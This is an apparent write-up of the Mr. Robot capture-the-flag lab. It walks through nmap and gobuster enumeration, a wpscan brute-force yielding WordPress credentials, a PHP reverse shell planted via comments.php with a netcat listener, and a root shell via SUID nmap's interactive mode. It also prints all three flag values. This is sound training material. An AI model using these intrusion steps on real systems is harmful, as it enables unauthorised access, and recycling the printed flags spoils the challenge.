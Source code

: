 markdown
# Mr. Robot CTF Walkthrough - VulnHub/TryHackMe

## Introduction
The Mr. Robot CTF, inspired by the *Mr. Robot* TV show, is a beginner-to-intermediate Linux-based virtual machine available on [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/) and [TryHackMe](https://tryhackme.com/room/mrrobot). The goal is to find three hidden keys (flags) through web enumeration, brute-forcing, and privilege escalation. This write-up documents my approach to solving the challenge.

## Challenge Description
The VM hosts a web server on ports 80 (HTTP) and 443 (HTTPS) with a *Mr. Robot*-themed interface. The challenge provides files like `robots.txt` and `fsocity.dic` to aid in finding the three flags. Tasks involve enumerating a web server, brute-forcing a WordPress login, and escalating privileges to root.

## Solution/Steps

### Key 1: Web Enumeration
1. **Scan the Network**: Identified the target IP using Netdiscover:
   bash
   netdiscover
   
   Target IP: `10.0.2.7` (adjust based on your setup).
2. **Port Scanning**: Used Nmap to find open ports:
   bash
   nmap -T4 -A -p- 10.0.2.7
   
   Result: Ports 80 (HTTP) and 443 (HTTPS) open.
3. **Check robots.txt**: Visited `http://10.10.58.206/robots.txt` and found `key-1-of-3.txt` and `fsocity.dic`. Downloaded the first key:
   bash
   wget http://10.0.2.7/key-1-of-3.txt
   
   **Flag 1**: `073403c8a58a1f80d943455fb30724b9`

### Key 2: WordPress Login
1. **Directory Brute-Forcing**: Used GoBuster to find hidden directories:
   bash
   gobuster dir -u http://10.0.2.7 -w /usr/share/wordlists/dirb/common.txt
   
   Discovered `/wp-login.php`.
2. **Brute-Force WordPress**: Used wpscan with `fsocity.dic` to crack the login
   Credentials: `elliot:ER28-0652`.
3. **Gain Shell Access**: Logged into WordPress, edited `comments.php` to upload a PHP reverse shell. Set up a Netcat listener:
   bash
   nc -nlvp 1234
   
   Navigated to `/home/robot` and found the second key:
   bash
   cat key-2-of-3.txt
   
   **Flag 2**: `822c73956184f694993bede3eb39f959`

### Key 3: Privilege Escalation
1. **Check SUID Binaries**: Found exploitable Nmap binary:
   bash
   find / -perm -u=s 2>/dev/null
   
   Nmap version 2.02–5.21 supports interactive mode.
2. **Exploit Nmap**: Used Nmap to gain root shell:
   bash
   nmap --interactive
   nmap> !sh
   
3. **Retrieve Final Flag**: Navigated to `/root`:
   bash
   cd /root
   cat key-3-of-3.txt
   
   **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

## Tools and Techniques
- **Nmap**: Port scanning and privilege escalation.
- **GoBuster**: Directory brute-forcing.
- **wpscan**: WordPress credential brute-forcing.
- **wget**: File downloads.
- **Netcat**: Reverse shell handling.
- **PHP Reverse Shell**: Gained user access.

## Challenges Faced
I initially used a generic wordlist for wpscan, missing `fsocity.dic` in `robots.txt`. The Nmap interactive mode was new to me; researching GTFObins clarified the exploit. Thorough enumeration was key to avoiding dead ends.

## Flags
plaintext
- Key 1: 073403c8a58a1f80d943455fb30724b9
- Key 2: 822c73956184f694993bede3eb39f959
- Key 3: 04787ddef27c3dee1ee161b21670b4e4


## Conclusion
This CTF taught me the importance of enumeration and exploiting SUID binaries. The *Mr. Robot* theme made it engaging, and I improved my skills with Nmap and wpscan.
## References
- [VulnHub: Mr. Robot CTF](https://www.vulnhub.com/entry/mr-robot-1,151/)
- [TryHackMe: Mr. Robot CTF](https://tryhackme.com/room/mrrobot)
- [GTFObins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [SecLists Wordlists](https://github.com/danielmiessler/SecLists)
- [PHP Reverse Shell] (https://github.com/pentestmonkey/php-reverse-shell)
  
